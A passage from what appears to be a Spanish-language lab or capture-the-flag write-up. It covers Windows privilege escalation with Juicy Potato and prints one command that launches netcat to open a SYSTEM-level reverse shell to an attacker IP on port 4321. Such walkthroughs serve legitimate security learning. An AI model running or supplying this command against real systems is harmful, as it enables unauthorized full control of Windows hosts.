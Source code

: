![Problema de interpretación de caracteres](images/post_2.png)

### Escalación de privilegios

#### Método 1 - Juicy Potato

Habiendo encontrado los privilegios relacionados con este método de escalación, sólo restaría probar su ejecución mediante el [binario](https://github.com/ohpe/juicy-potato/releases) y con las opciones utilizadas para entablar una reverse shell con permisos elevados `NT AUTHORITY\SYSTEM`. Ejecutando:

```bash
.\jp.exe -t * -l 1337 -p c:\windows\temp\nc.exe -a " -e cmd.exe 10.10.14.16 4321"
```

![Ejecución de Juicy Potato](images/post_3.png)

Con lo que respecta a los argumentos utilizados, el binario mismo da la descripción de cada uno de ellos.

![Descripción de argumentos](images/post_4.png)
